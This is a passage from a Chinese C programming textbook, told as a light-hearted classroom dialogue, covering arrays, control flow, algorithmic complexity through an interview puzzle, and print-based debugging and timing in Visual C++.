大多数字符串用一维数组表示。数组元素的多少表示字符串长度，数组名表示字符串中第一个字符的地址，例如在语句 **char str[8]** 说明的数组中存入 “hello” 字符串后，**str** 表示第一个字母 “h” 所在的内存单元地址。**str[0]** 存放的是字母 “h” 的 ASCII 码值，以此类推，**str[4]** 存入的是字母 “o” 的 ASCII 码值，**str[5]** 则应存放字符串终止符 `"\0"`。

C 不会对数组作边界检查。例如使用下面语句说明两个数组“char str1[5]”、“str2[6]”，当赋给 **str1** 一个字符串 “ABCDEFG” 时，只有 “ABCDE” 被赋给 **str1**，“FG” 将会自动地赋给 **str2**，这点要特别注意，越界会导致缓冲区溢出漏洞，我们以后会详细讲解的。

注意：与 Java 相比，C 虽然缺乏边界检查这个重要的“职能”，但是在数组定义并赋值的时候编译器是会检查数组边界的。比如 **char str[2] = "magic_dog";**，这样编译器是会报错的。

> “为了具体解释数组的用法，我们再来看一个经典的问题，上梯子的问题。题目是这样的，有人从山底登到山顶，共有 11 个梯子，他每次可以上一格，也可以上两格，问他共有多少种登上山顶的方法呢？”

> “嗯……”小菜们愣住了，“这可怎么计算啊？一点思路都没有……”

> “在计算机科学中，解决问题的思路称为算法。”老师说道，“有很多计算机大师，没有写过程序，但凭他们对算法的研究，就为计算机科学的发展作出了重大的贡献。”

> “哦！”小菜们点点头。

> “编程其实就是用选择的编程语言和数据结构来实现算法！”老师进一步解释道，“所以掌握编程语言是部分基本功，而关键还是在构造算法上！比如语言识别、图像识别等，都是算法的发展，才推动了应用的发展。网络编程也是一样，具体的编码实现，还是相对较简单的问题。”

> “我们还是来看看解决这道题的思路，也就是算法吧。”老师说道，“我们解决问题的一个基本方法是从简单到复杂，从特殊到一般，发现规律后，再推广到所有情况。所以我们先手工推算一下登最初几梯的方法数。”

> “第 0 梯，也就是登山者最初所在的那梯，方法数只能为 1。因为登山者一来就在那里了，没有其它的办法可以到达第 0 梯。”

> “第 1 梯，也比较简单，只能从第 0 梯通过登 1 格上来，所以方法数为 1。”

> “第 2 梯，登山者可以在第 0 梯登 2 格，或连续登两个 1 格来到达第 2 梯，所以方法数为 2。”

“而保存每一梯的方法数，就用一维数组 `int iValue[12]` 了。我们有了思路就是算法，又有了存储值的数据结构——数组，就能编程写出计算程序，程序如下。”

```c
#include "stdafx.h"
int _tmain(int argc, _TCHAR* argv[])
{
    int i;
    int iValue[12];    // 11梯
    iValue[0] = 1;     // 第0梯方法数为1
    iValue[1] = 1;     // 第1梯方法数为1
    for(i = 2; i <= 11; i++)
    {
        iValue[i] = iValue[i - 1] + iValue[i - 2];
        // 第n梯 = 第n-1梯 + 第n-2梯
    }
    // 打印11梯的方法数
    printf("%d", iValue[11]);
    return 0;
}
```

图 1-45

“我们运行一下，得到了结果如图 1-45 所示，大家可以看到结果为 144。”

老师接着又问道：“这是 11 梯的情况，如果山更高点，比如梯子有 100 梯，我们如何计算呢？”

“这个简单嘛，把数组改成 101 大小，**int iValue[101];**，计算到第 100 梯，最后打印出第 100 梯的方法数 **printf("%d", iValue[100])** 就行了！”

“呵呵，大家试试看。”老师说道。

“好，改成 100 个数组，编译执行，结果如图 1-46 所示。”

“咦？负数？这是怎么回事啊？”

“呵呵，这是因为方法数太大了，超过了 int 的表示范围。”

“哦！明白了！”小菜们翻了翻前面的基本数据类型，“方法数超过了 2147483647 种啊！”小菜们吓得吐了吐舌头。

“呵呵，对！要解决这个问题，我们可以自己设计一种数据类型来存放很大的数。如何存放呢？还是使用我们的数组，数组的每一位元素，保存大数的每一位。具体的实现大家可以参见黑客 X 档案以前出版的《黑客编程入门》一书。”

#### （2）多维数组

多维数组的一般说明格式是：类型 数组名[第 n 维长度][第 n-1 维长度]……[第 1 维长度]；

例如：

```c
int m[3][2];      /* 定义一个整型的二维数组 */
char c[2][2][3];  /* 定义一个字符型的三维数组 */
```

数组 `m[3][2]` 共有 `3*2=6` 个元素，顺序为：

```text
m[0][0]  m[0][1]
m[1][0]  m[1][1]
m[2][0]  m[2][1]
```

数组 `c[2][2][3]` 共有 `2*2*3=12` 个元素，顺序为：

```text
c[0][0][0]  c[0][0][1]  c[0][0][2]
c[0][1][0]  c[0][1][1]  c[0][1][2]
c[1][0][0]  c[1][0][1]  c[1][0][2]
c[1][1][0]  c[1][1][1]  c[1][1][2]
```

数组占用的内存空间（即字节数）的计算式为：字节数 = 第 1 维长度 * 第 2 维长度 * …… * 第 n 维长度 * 该数组数据类型占用的字节数

### 1.4.7 控制流程

从程序执行的流程来看，C 程序可分为三种最基本的结构：顺序流程结构、分支流程结构以及循环流程结构。

#### （1）顺序流程结构

顺序流程就是从上到下一行一行地执行程序，包括表达式语句、函数调用语句和空语句等。刚才的 HelloWorld 程序：```c
printf("ww0830"); // 打印出字符串
return 0;
```

就是顺序结构的例子。

#### （2）选择流程

选择流程就是进行判断执行。C 语言提供了多种形式的条件语句以构成分支结构。

- 1. if 语句 主要用于单向选择。格式为 `if（表达式）语句`，例如：

```c
if (x == y)
    printf("%d", x);
```

代码的意思是如果 x 等于 y，就打印出 x；否则什么都不做。

- 2. if-else 语句主要用于双向选择。格式为 `if（表达式）语句1；else 语句2；`，例如：

```c
if (x == y)
    printf("%d", x);
else
    printf("%d", y);
```

代码的意思是如果 x 等于 y，就打印出 x，否则打印出 y。

- 3. if-else-if 语句和 switch 语句用于多向选择。格式为：

if（表达式1）语句1；
else if（表达式2）语句2；
…else 语句n

例如：

```c
if (nNumber > 500)
    dCost = 0.15;
else if (nNumber > 300)
    dCost = 0.10;
else if (nNumber > 100)
    dCost = 0.05;
else
    dCost = 0;
```

代码是个多重判断，如果 nNumber 大于 500，dCost 赋成 0.15；如果 nNumber 小于 500 大于 300，dCost 赋成 0.10；如果 nNumber 小于 300 大于 100，dCost 赋成 0.05；如果都不是，dCost 赋成 0。

> “大家要注意啊！初学者极易把 `if (x == y)` 误写成 `if (x = y)`，吃掉一个等号。”老师又说道，“遥想当年，一位英俊潇洒、风流倜傥、玉树临风的计算机等级考试（二级）考生，想必大家都已经猜到了，那就是小生我了，在上机考试的时候，也这样写错了！`if (x = y)` 判断结果始终为真，那当然怎么也得不到正确的答案了！”

> “啊？那然后呢？”

“什么然后？”

“找到错误了吗？”

“当然找到了，不过那是考试下来了之后。”

“啊？那考试过了吗？”

“过了。”

“啊？为什么？”

> 老师沉思了一会，说道：“我也不知道，估计是由于自己比较帅的原因吧。毕竟这么帅的计算机二级考生可不是常有的！”

> 台下的小菜们倒下了一大片……

> “反正大家要记清楚了，`if (x == y)` 而不是 `if (x = y)`！大家考试的时候可能就没有我这么幸运了！”

- 4. 开关语句

Switch 语句是多分支选择语句。

```c
switch(表达式)
{
    case 常量表达式1: 语句1; break;
    case 常量表达式2: 语句2; break;
    default: 语句;
}
```

Switch 的说明如下：

Switch 后面括号内的“表达式”允许为任何类型，当表达式的值和某一个 case 后面的常量表达式的值相等时，就进入该入口，开始执行；如果所有 case 中的常量表达式的值都没有与表达式的值匹配，就执行 default 后面的语句；每一个 case 的常量表达式的值必须互不相同，才不会出现相互矛盾的现象；在执行 switch 语句时，根据 switch 后面表达式的值找到匹配的入口标号，就从此标号执行下去。注意！执行下去后不会判断该 case 对应语句的结束，程序也没法知道什么时候结束，所以要用一个 break 来跳出 switch 结构。例如，按照考试成绩的等级打印出百分制分数段，可以用 switch 和 break 语句实现：

```c
switch(grade)
{
    case 'A': printf("80-100"); break;
    case 'B': printf("60-80"); break;
    case 'C': printf("<60"); break;
    default: printf("error"); break;
}
```

#### （3）循环流程

循环是把一段执行多次，执行完后再向下执行。C 语言提供了三种循环语句：

- 1. while 语句

while 语句用来实现“当型”循环结构，其一般形式如下：

```c
while（表达式）
{
    语句
}
```

当表达式为真时，就执行 while 语句中的内嵌语句，比如：

```c
int iCount = 0;
while (iCount < 100)
{
    printf("ww0830\n");
    iCount++;
}
```

> “程序是干什么呢？”

“输出一百行 ww0830 啊！”

“啊……”

- 2. do-while 语句

do-while 语句的特点是先执行循环体，然后判断循环条件是否成立，其一般格式如下：

```c
do
    循环体语句
while（表达式）；
```

它先执行一次指定的循环体语句，再判断表达式，当表达式的值为真时，返回继续执行循环体语句，如此反复，直到表达式的值不为真为止，比如：

```c
int iCount = 0;
do
{
    printf("ww0830\n");
    iCount++;
} while (iCount < 100);
```

> “这？”

“还是输出一百行 ww0830 啊！”

“……”

- 3. for 语句

For 语句的一般形式为：`for(表达式1；表达式2；表达式3) 语句`

它的执行过程如下：先求解表达式1；求解表达式2，如果为真，执行 for 语句中内嵌的语句；如果为假，则循环结束；求解表达式3；转回与表达式2结果比较。比如求从 1 到 100 的和，代码如下：

```c
int i;
for (i = 0; i < 100; i++)
{
    printf("ww0830");
}
```

> “这我知道了！还是输出一百行 ww0830 啊！受不了了！”

> “答对了！加十分！”老师打出了一个 V 字手势，“另外，在循环体中，break 语句可以跳出，即提前结束循环，接着执行循环下面的语句。continue 语句结束本次循环，即跳过循环体中下面尚未执行的语句，接着进行下一次是否执行循环的判定。”

> “既然大家都这么急，那我们来看一道 Google 的面试题吧。”

### 1.4.8 程序复杂度

“题目是：大小为 N 的整数数组，里面存的数是从 1 到 N-1，其中有且只有一个数在数组里出现了两次，问如何找到这个数呢？举个直观的例子：

```c
#define N 5
int iArray[N] = {1, 2, 2, 3, 4};
```

这里 N 就是 5，重复的数字是 2。”

> “哦，这个简单嘛，对数组中的每一个元素，用数组中的其他元素挨个与它比较，如果是相同的，那就找到了嘛。程序如下。”

```c
#define N 5
int iArray[N] = {1, 2, 2, 3, 4};
int _tmain(int argc, _TCHAR* argv[])
{
    int i, j;
    for (i = 0; i < N; i++)
    {
        for (j = 0; j < N; j++)
        {
            if (i != j)
            {
                if (iArray[i] == iArray[j])
                {
                    printf("%d\n", iArray[i]);
                    return 0;
                }
            }
        }
    }
    return 0;
}
```

> “哈哈，程序的输出果然为 2，找到了！”小菜们运行后得到了结果。

> “是的，但大家想一下，这样的实现对大小为 N 的数组，需要运行多少次比较呢？”

> “对每一个元素，要比较 N 次，因为有 N 个元素，所以共要 N*N 次。”

> “对！也就是说，完成这个程序需要 N 的平方的时间，我们称为时间复杂度为 N^2，可以用符号 O(N^2) 来表示。”

> “程序复杂度为 O(N^2) 的代价是比较高的，如果 N 为 10000，那么就要比较 100000000 次！因此，大家能不能对这个问题改进一下呢？提示一下：数组中存的元素都是 1 到 N-1 的整数。”

> “我明白了。”小菜 A 说道，“我们再开一个同样大小的数组 `int iCount[N]`，其元素 `iCount[i]` 的意义是整数 i 在 iArray 数组中的出现次数。最开始把它的元素全部清空为 0，就是都还没有出现；然后遍历 iArray 数组，iCount 对应的 `iArray[i]` 元素加 1，如果发现 `iCount[iArray[i]]` 的值已经 2 了，那就说明 `iArray[i]` 的值在 iArray 元素中出现了两次，不就找到了吗。”

```c
#define N 5
int iArray[N] = {1, 2, 2, 3, 4};
int _tmain(int argc, _TCHAR* argv[])
{
    int Count[N];                // 记录整数的出现次数
    int i;
    for (i = 0; i < N; i++)      // 清空 Count 数组
    {
        Count[i] = 0;
    }

    for (i = 0; i < N; i++)      // 遍历 iArray
    {
        Count[iArray[i]]++;      // Count 对应元素加 1
        if (Count[iArray[i]] == 2) // 如果为 2，说明出现了两次
        {
            printf("%d\n", iArray[i]); // 就打印出来，返回
            return 0;
        }
    }
    return 0;
}
```

“哈哈，还是找到了重复的元素 2，这可是 O(N) 的时间复杂度哦。”小菜 A 估计着比划了一下，说道。

“不错，这是标准的空间换时间！”老师表扬道，“但毕竟还开了一个数组，空间复杂度为 O(N) 了。我们可不可以不开数组，写一个常数空间复杂度即 O(1) 的程序吗？”

“哦，可以这样吗？”

“呵呵，大家想想，从 1 到 N-1 的和是多少呢？”

“梯形面积公式：`(1+N-1) * (N-1) / 2`。”

“对！题目中说了，数的范围是 1 到 N-1，有且只有一个重复的数……”

“我们只要把数组里面的元素值全部加起来，然后与 `(1+N-1) * (N-1) / 2` 相减，其结果就是那个多出来的重复元素了！”

“快快快，试一下。”小菜们几下就写出了程序：

```c
#define N 5
int Array[N] = {1, 2, 2, 3, 4};
int _tmain(int argc, _TCHAR* argv[])
{
    int i;
    int iSum = 0;                 // 数组元素之和
    for (i = 0; i < N; i++)
    {
        iSum += Array[i];         // 计算数组元素之和
    }
    iSum -= (1 + N - 1) * (N - 1) / 2;  // 与公式出的值相减
    printf("%d\n", iSum);         // 就是那个重复的元素
    return 0;
}
```

“哈哈，还是找到了重复的元素 2。”

“不错，时间复杂度为 O(N)，空间复杂度为 O(1)，最优了！所以，大家可以看到，解决问题的最优雅的方法是数学。”

“对！”小菜们点点头。

“这道题和之前的几道题，都是 Google、微软的笔试、面试题哦！”

“哦，是吗？哈哈，那以后就不要叫我小菜了，请叫我做过了 Google 面试题的小菜吧！”

“好了，好了，大家也辛苦了，下课休息一下。下节课我们再学习下 VC 中的调试功能。”

## 1.5 在 VC 中调试

课间休息中……

“老师，那些跨国大公司、世界 500 强，在招聘计算机人员的时候，看重什么方面的素质呢？”小菜们和老师聊了起来。

“从那道题就可以看出，是基础、算法、数据结构以及语言的本质。”老师回答道，“看李开复博士给中国计算机系学生的建议，也是建议把数据结构、算法、数据库、操作系统原理、计算机体系结构、计算机网络、离散数学等基础课程学好。”

“那只有修炼内功，积累经验，多写程序，多思考，多总结。如李开复所说，厚积薄发，有的放矢，这是没有捷径可走的。”老师说道，“我只能把大家带进程序设计这道大门，具体的就要靠大家自己去钻研了。”

“好的，那老师赶紧继续上课吧，我们都很想早点入门！”

“兴趣是最好的老师，大家有这样的精神非常好，那大家都坐好吧。”

老师又开始正式上课了：“编写程序，尤其是编写较复杂的程序，一般都不会一次就编写成功，可能会有语法或逻辑上的错误。语法上的错误，编译器可以帮我们发现并给我们提示；但逻辑上的错误，编译器就没法帮我们识别了。逻辑上的错误表现出的效果只是程序达不到我们预想的功能。”

“哦，那怎么解决呢？”小菜们问道。

“要解决问题，首先要发现问题所在，而要发现问题所在的地方，就一定要使用调试这个手段了。程序不是写出来的，是调出来的。”老师说道，“这句话很有道理。我们看看在 VC 中如何进行调试。”

### 1.5.1 打印调试示例

“最简单原始的调试方法，是在程序中嵌入一些打印语句，将一些关注的变量值打印出来。我们以一个简单的程序来进行调试吧，求 0 到 100 的和的程序。”

“啊？这可是真够简单的！我们可是做过了 Google 面试题的小菜哦！”

“呵呵，程序本身虽然很简单，但是可以说明调试很多方面的问题，极具参考价值和收藏价值！我们新建一个 Win32 控制台工程，命名为 CalcSum，过程就不再重复了，大家复习一下上节课的内容即可，然后敲入编写从 0 到 100 的和的程序如下。”

```cpp
#include "stdafx.h"
int _tmain(int argc, _TCHAR* argv[])
{
    int iSum;
    iSum = 0;
    for (int i = 0; i <= 100; i++)
    {
        iSum += i;
    }
    return 0;
}
```



“为了查看计算 iSum 的值是否正确，我们在刚定义 iSum 后和计算出和之后，分别打印出 iSum 的值。其代码如下：”



```cpp
#include "stdafx.h"
#include <stdio.h>
int _tmain(int argc, _TCHAR* argv[])
{
    int iSum;
    printf("%d\n", iSum);
    iSum = 0;
    for (int i = 0; i <= 100; i++)
    {
        iSum += i;
    }
    printf("%d\n", iSum);
    return 0;
}
```



“就是在程序最后加了一句 `printf("%d\n", iSum);`，按 Ctrl+F5 直接运行，会弹出如图 1-47 所示的警告框。”

“这个警告框的意思是 iSum 还没有初始化就使用了。”老师解释道，“产生的原因是第一次打印 iSum 的值时，iSum 还没有赋值而造成的。一个变量没有初始化就使用，是很危险的一件事情，可能会产生意想不到的错误，而 VC2003 可以自动捕获这类情况，以加强程序的稳健性。我们点击忽略，让程序执行，执行结果如图 1-48 所示。”

“嗯，5050 是计算完之后的值，的确是从 0 加到 100 的结果。”小菜们想起了高斯的故事，然后惊叹道：“哇！第一个怎么会是一个负值呢？而且这么大！”

“我们刚才用的是 `%d`，就是以 10 进制打印出其值，我们改成 `%x` 以 16 进制打印出来看看，就是把第一个打印改成 `printf("%x\n", iSum);`，然后再次运行程序，如图 1-49。”

“哇！是 cccccccc 啊！”小菜们看到结果更惊讶了。

> “是的，可以看到，在赋初值前 iSum 的十六进制值为 CCCCCCCC，显然不是有效的值，这是因为 VC 编译器会将堆栈里初始化的内存以 0xCC 直接填充，在 iSum = 0 之后，才变为一个有效值，才能对其正常地操作。”

> **小知识：VC 编译器对不同分配的变量值有不同的初始化填充方式**

调试版本的动态分配内存里，未被初始化的公用内存都被初始化为 0；在调试版本里，堆里未被初始化的内存被 0xCD（Clean Data）字节模式填充；堆里释放的内存被 0xDD（Dead Data）字节模式填充；堆栈里未被初始化的内存被 0xCC 字节模式填充；初始化受保护的内存以 0xFD（deFence Data）字节填充。其根据字节的值来确定这段内存范围。这样做的好处是这些值都很大，作为指针是不可能的（而且 32 位系统中指针很少是奇数值），使得该系统中奇数的指针会产生运行时错误；作为数值也很少遇到，而且这些值也很容易辨认，因此这很有利于在 Debug 版中发现 Release 版本会遇到的错误。

“这里大家要特别注意，很多人认为编译器会用 0 来初始化变量，这是错误的，而且这样很不利于查找错误。所以，如果忘记给变量赋初值就直接使用，是件很危险的事情，很有可能使程序崩溃。”

“这种打印的方法在时间比较紧，需要寻找快速解决方案的时候有很大的用处。比如在 ACM/ICPC（国际大学生程序设计竞赛）的时候，三人共用一台机器，当需要排错时，可以用这种方法打印出一定的调试信息离线检查，而空出机器给队友使用。”

“当程序测试时，发现效率不高，也可以用这种方法打印出执行某段语句的所用时间，以迅速找到耗时不正常的地方并修改。”

### 1.5.2 获得某段程序的执行时间

“大家想想，要获得某段语句所用的执行时间，可以用什么方法呢？”老师问道。

“可以在语句执行前，获得当前的时间，然后在语句执行完成后，再获得一个当前时间，两者相减，就是这段代码的运行时间了。”小菜们想了想，回答道。

“太对了。不过时间的精确度不高，我们获得开机后系统运行的毫秒时间，这可以通过 GetTickCount() 函数实现。”

“咦？GetTickCount？怎么使用呢？”

“遇到这种函数该怎么使用的问题时，大家就查 MSDN 吧！”

“哦，对啊！”小菜们拍了下自己的脑袋，打开了 MSDN，在搜索中输入 GetTickCount，得到了帮助信息如图 1-50 所示。

“好详细啊！”小菜们再次感受到了 MSDN 的威力，只见对 GetTickCount 函数的介绍如下：The GetTickCount function retrieves the number of milliseconds that have elapsed since the system was started. It is limited to the resolution of the system timer.

“这段英文的意思是，GetTickCount 函数返回系统开始运行后的毫秒数。”其用法如下：



```c
DWORD GetTickCount(void);
Parameters
  This function has no parameters.
Return Values
  The return value is the number of milliseconds that have elapsed since the system was started.
```

“意思是该函数没有参数，返回值为一个 DWORD 类型，其值为系统开始运行后经过的毫秒时间。”老师继续解释道。

“那 DWORD 是什么类型呢？”小菜们翻了翻 C 语言的简介，没有找到该类型的解释，又随口问道。

“哦，哦，哦，我们也来查一下 MSDN 就知道了。”小菜们还是比较聪明，一下明白了过来。又在 MSDN 中输入 DWORD 查询起来，只见 MSDN 中给出的 DWORD 定义如下：`typedef unsigned long DWORD`。“哦，原来 DWORD 就是一个无符号长整型啊！”小菜们第一次通过 MSDN 解决了疑问，非常高兴。“不过为什么要这样定义一下呢？”

“这是 Windows 环境开发下，微软自己定义的一些类型。微软定义的类型和标准的 C 语言很好区别，C 都是小写，MS 的都是大写，比如 INT、DWORD、BOOL 等。”老师说道，“所以，如果要实现代码跨平台，就只能用标准的 C，而不能加上微软的那些东西，在 Linux 下编译器是不认识的。”

“回到我们的 GetTickCount 函数上来，MSDN 中也给出了使用例子，如下。”

```c
DWORD dwStart = GetTickCount();
// Stop if this has taken too long
if ((GetTickCount() - dwStart) >= TIMELIMIT)
```

“我们也仿照加到我们的程序中，看计算 1 到 100 的和要多少时间，代码如下。”

```c
#include "stdafx.h"
#include <Windows.h>
#include <stdio.h>
int _tmain(int argc, _TCHAR* argv[]) // 入口程序
{
    int iSum;              // 定义iSum
    iSum = 0;              // iSum赋值为0
    DWORD dwStart = GetTickCount(); // 开始时间
    for (int i = 0; i <= 100; i++)
    {
        iSum += i;         // 从0加到100
    }
    printf("%d\n", iSum); // 打印出计算完后iSum的值
    DWORD dwEnd = GetTickCount();   // 结束时间
    printf("%d\n", dwEnd - dwStart); // 计算出执行的时间
    return 0;
}
```



图 1-51

“大家注意，为了使用 DWORD 类型和 GetTickCount 函数，我们加入了 `#include <Windows.h>` 头文件，然后在程序开始时，得到当前时间，在运算结束后，再次得到当前时间，把两者相减并打印出结果，其结果如图 1-51 所示。”

“怎么会是 0 呢？”小菜们迷惑道。

“呵呵，运算速度太快了，还不到一毫秒，而且编译器可能会优化，因为直接知道循环的结果是 5050，就不用实际地执行循环了。大家明白这种计算时间的思路就好了。”

